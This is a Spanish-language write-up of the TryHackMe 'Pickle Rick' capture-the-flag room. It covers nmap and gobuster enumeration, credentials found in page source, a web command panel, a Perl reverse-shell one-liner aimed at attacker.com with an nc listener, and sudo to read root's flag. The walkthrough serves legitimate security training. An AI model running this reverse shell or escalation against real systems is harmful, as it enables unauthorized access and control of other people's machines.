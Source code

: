 ```yaml
---
title: TryHackMe Pickle Rick Writeup
published: true
---
```


La máquina Pickle Rick, ambientada en Rick y Morty es una máquina de TryHackMe en la que mediante la explotación de un servidor web conseguimos los tres ingredientes (flags) que nos hacen falta para la resolución de la misma.


# [](#header-1)Enumeración

La enumeración se trata de una de las fases principales, en las que recolectamos la máxima información posible de la máquina víctima.

Usaremos nmap para analizar los puertos abiertos:

```bash
nmap -p- --open --min-rate 5000 -vvv -n $IP-VICTIMA -oG allPorts
```

*  Escaneo todos los puertos abiertos -p- --open

*  Mediante --min-rate 5000 indicamos que queremos emitir paquetes no más lentos que 5000 paquetes por segundo.

*  Triple verbose (-vvv) para que vaya reportando por consola los puertos abiertos y no tener que esperar al final del escaneo.

*  Para que el escaneo no aplique resolución DNS usamos -n

*  En mi caso exporto los puertos abiertos en formato grepeable (-oG) al archivo allPorts

```bash
❯ nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.17.209 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 12:24 EDT
Initiating Connect Scan at 12:24
Scanning 10.10.17.209 [65535 ports]
Discovered open port 22/tcp on 10.10.17.209
Discovered open port 80/tcp on 10.10.17.209
Completed Connect Scan at 12:24, 14.03s elapsed (65535 total ports)
Nmap scan report for 10.10.17.209
Host is up, received user-set (0.073s latency).
Scanned at 2022-10-11 12:24:09 EDT for 14s
Not shown: 62896 closed tcp ports (conn-refused), 2637 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.09 seconds
```

El escaneo nos reporta dos puertos abiertos, el 22 y el 80, así como el servicio que corre en cada uno de ellos.

Debido a que el puerto 80 está abierto, entramos en la web con la $IP-VICTIMA. En ella no observamos mucha información por lo que inspeccionamos el código de esta.

Tras una breve búsqueda hayamos un usuario.

```bash
Note to self, remember username!

Username: R**kR**s
```

Por otro lado, podemos usar algún buscador de directorios como pueden ser gobuster, dirsearch u otro. En mi caso utilizaré gobuster. Para ello:

```bash
gobuster dir -u http://$IP-VICTIMA -w /usr/share/wordlists/dirbuster/directoy-list1.0.txt
```

Buscamos los directorios de la $IP-VICTIMA usando el archivo de lista de palabras directory-list1.0.txt

En este punto podríamos usar cualquier lista de palabras.

```bash 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.17.209/
[+] Method:                  GET
[+] Threads:                 25
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2022/10/11 12:42:09 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd.txt        (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 296]
/.htpasswd.php        (Status: 403) [Size: 300]
/.htpasswd.html       (Status: 403) [Size: 301]
/.hta                 (Status: 403) [Size: 291]
/.htaccess.php        (Status: 403) [Size: 300]
/.hta.php             (Status: 403) [Size: 295]
/.htaccess.html       (Status: 403) [Size: 301]
/.htaccess.txt        (Status: 403) [Size: 300]
/.hta.html            (Status: 403) [Size: 296]
/.hta.txt             (Status: 403) [Size: 295]
/a*****               (Status: 301) [Size: 313] [--> http://10.10.17.209/a*****/]
/denied.php           (Status: 302) [Size: 0] [--> /l****.php]                   
/index.html           (Status: 200) [Size: 1062]                                 
/index.html           (Status: 200) [Size: 1062]                                 
/l****.php            (Status: 200) [Size: 882]                                  
/portal.php           (Status: 302) [Size: 0] [--> /l****.php]                   
/r*****.txt           (Status: 200) [Size: 17]                                   
/r*****.txt           (Status: 200) [Size: 17]                                   
/server-status        (Status: 403) [Size: 300]                                  
                                                                                 
===============================================================
2022/10/11 12:42:46 Finished
===============================================================
```

Tras el análisis entramos en http://$IP-VICTIMA/a----- pero no vemos nada interesante por lo que entramos en http://$IP-VICTIMA/r-----.txt y hayamos una cadena de texto que podría ser la conraseña del usuario antes hayado:

```bash
Wub*al*bb*du*dub
```

Otro de los directorios que hemos encontrado con gobuster nos proporciona una página de login. En ella probamos el usuario y contraseña que hemos adquirido y entramos!

Aparece una sección en la que podemos ajecutyar comandos. Intentamos listar el contenido con ls y aparece "Sup3rS3cretPickl3Ingred.txt". Intentamos abrirlo con cat pero no nos deja por lo que probamos otro comando como less. Encontramos así el primer ingrediente.

```bash
less Sup3rS3cretPickl3Ingred.txt
```

Seguimos investigando mediante comandos de navegacion. Con pwd vemos donde nos encontramos y llegamos a ver que dentro del usuario rick (podemos verlo mediante ls ../../../home/rick) se haya el segundo ingrediente pero no podemos abrirlo de ningún modo.

# []($header-1)Escalada de privilegios

Ahora debemos obtener una reverse shell. Intentamos realizar una bash reverse shell pero no funciona por lo que lo intento con perl. Entramos en <a href="https://gtfobins.github.io/">gtfobins</a> para poder buscar la reverse shell con perl. 

Desde la máquina atacante nos ponemos en escucha por el puerto 444 con nc:

```bash
nc -lnvp 4444
```

Por otro lado, desde la máquina víctima introducimos la perl reverse shell:

```bash
export RHOST=attacker.com
export RPORT=12345
perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Obtenemos así la reverse shell y podemos ejecutar comandos desde la máquina atacante.

Abrimos el archivo "second ingredients" y obtenemos el segundo ingrediente.

```bash
cat 'second ingredients'
```

Con sudo -l podemos observar los permisos que tiene el usuario Rick a la hora de ejecutar comandos. En este caso podemos realizar todos los comandos como sudo por lo que listamos lo que hay en el usuario root mediante:

```bash
sudo ls /root/ y vemos un archivo txt
```

Lo abrimos y obtenemos el último ingrediente!

```bash
sudo cat /root/3rd.txt
```

Muchas gracias por leer este writeup, espero que te haya gustado!
